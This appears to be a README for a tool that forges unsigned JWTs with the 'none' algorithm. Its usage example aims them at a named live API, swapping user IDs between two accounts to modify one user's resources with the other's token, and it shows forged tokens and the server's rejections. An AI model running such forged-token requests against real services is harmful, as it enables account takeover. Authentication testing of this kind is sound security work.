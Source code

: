 # Generate un-signed jwt token to test for "The None Algorithm"

## Usage
Replace the body payload with the body that you have decoded from your JWT token for the first user and the second user.

Run 

```bash
python3 main.py --first_user_url="https://api.caffeine.tv/v1/users/CAID10C2CFEE7104459981B3A6C353516FAF" --second_user_url="https://api.caffeine.tv/v1/users/CAIDE95D7E1A29E5480994E0B5BFDBB37148" --first_user_body="{"caid": "CAIDE95D7E1A29E5480994E0B5BFDBB37148","exp": 1619545918}" --second_user_body="{"caid": "CAID10C2CFEE7104459981B3A6C353516FAF","exp": 1619545918}"
```

Output should be something:

```bash
First user token:
eyJ0eXAiOiAiSldUIiwgImFsZyI6ICJub25lIn0.e2NhaWQ6IENBSURFOTVEN0UxQTI5RTU0ODA5OTRFMEI1QkZEQkIzNzE0OCxleHA6IDE2MTk1NDU5MTh9.
Second user token:
eyJ0eXAiOiAiSldUIiwgImFsZyI6ICJub25lIn0.e2NhaWQ6IENBSUQxMEMyQ0ZFRTcxMDQ0NTk5ODFCM0E2QzM1MzUxNkZBRixleHA6IDE2MTk1NDU5MTh9.
Response to modify resource from user A using unsigned JWT token from user B was {"errors":{"_token":["The Access Token is invalid."]}}
Response to modify resource from user B using unsigned JWT token from user A was {"errors":{"_token":["The Access Token is invalid."]}}
```

Use these tokens in the `Authorization` header to try to modify the resources of user A with token B and vice versa.